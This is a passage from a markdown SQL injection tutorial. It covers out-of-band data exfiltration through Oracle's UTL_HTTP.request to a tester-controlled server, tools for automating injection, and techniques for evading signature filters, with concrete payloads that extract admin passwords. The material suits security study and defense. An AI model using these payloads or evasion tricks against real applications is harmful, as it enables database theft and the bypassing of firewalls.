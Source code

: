    In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`. The tester can set up a webserver (e.g. Apache) or use the Netcat tool.
<br>
<br>
<br>

# Automated Exploitation
Most of the situation and techniques presented here can be performed in a automated way using some tools. Here is the list of tools that can help you with this.

### Tools for SQL Injection Automation:
[SQLMAP](https://github.com/sqlmapproject/sqlmap) : **Automatic SQL injection and database takeover tool**<br>
[Ghauri](https://github.com/r0oth3x49/ghauri) : **An advanced cross-platform tool that automates the process of detecting and exploiting SQL injection security flaws.**
<br>
<br>
<br>

# SQL Injection Signature Evasion Techniques
SQL Injection (SQLi) attacks exploit vulnerabilities in web applications to interfere with the queries made to a database. Attackers often use sophisticated techniques to bypass defenses such as Web Application Firewalls (WAFs) or Intrusion Prevention Systems (IPSs). Understanding these techniques is crucial for securing web applications.<br>
<br>

- ## Whitespace:
  Dropping space or adding spaces that won’t affect the SQL statement. For example: <br>`OR 'a'='a'` , `or 'a'  =    'a'`
<br>

- ## Null Byte:
  
  Use null byte (%00) prior to any characters that the filter is blocking.
  For example, if the attacker may inject the following SQL: <br> `' UNION SELECT password FROM Users WHERE username='admin'--`<br>
  to add Null Bytes will be: <br>
  `%00' UNION SELECT password FROM Users WHERE username='admin'--`
<br>

- ## SQL Comment:
  
  Adding SQL inline comments can also help the SQL statement to be valid and bypass the SQL injection filter. Take this SQL injection as example.
  `' UNION SELECT password FROM Users WHERE name='admin'-`
  
  Adding SQL inline comments will be:
  `'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`
  `'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`
<br>

